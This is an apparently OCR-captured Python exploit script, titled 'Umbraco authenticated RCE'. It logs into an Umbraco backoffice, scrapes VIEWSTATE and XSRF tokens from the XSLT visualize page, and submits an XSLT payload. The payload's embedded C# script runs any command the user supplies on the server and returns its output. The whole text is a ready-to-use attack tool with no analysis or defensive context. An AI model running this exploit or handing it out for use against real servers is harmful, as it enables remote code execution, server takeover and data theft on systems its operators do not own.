 ```python
parser = argparse.ArgumentParser(prog='exploit.py',
    description='Umbraco authenticated RCE',
    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=80))
parser.add_argument('-u', '--user', metavar='USER', type=str,
    required=True, dest='user', help='username / email')
parser.add_argument('-p', '--password', metavar='PASS', type=str,
    required=True, dest='password', help='password')
parser.add_argument('-i', '--host', metavar='URL', type=str, required=True,
    dest='url', help='root URL')
parser.add_argument('-c', '--command', metavar='CMD', type=str, required=True,
    dest='command', help='command')
parser.add_argument('-a', '--arguments', metavar='ARGS', type=str, required=False,
    dest='arguments', help='arguments', default='')
args = parser.parse_args()

# Payload
payload = """\
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>\
""" % (args.arguments, args.command)

login = args.user
password = args.password
host = args.url

# Process Login
url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
loginfo = { "username": login, "password": password}
s = requests.session()
r2 = s.post(url_login,json=loginfo)

# Go to vulnerable web page
url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
r3 = s.get(url_xslt)

soup = BeautifulSoup(r3.text, 'html.parser')
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
```
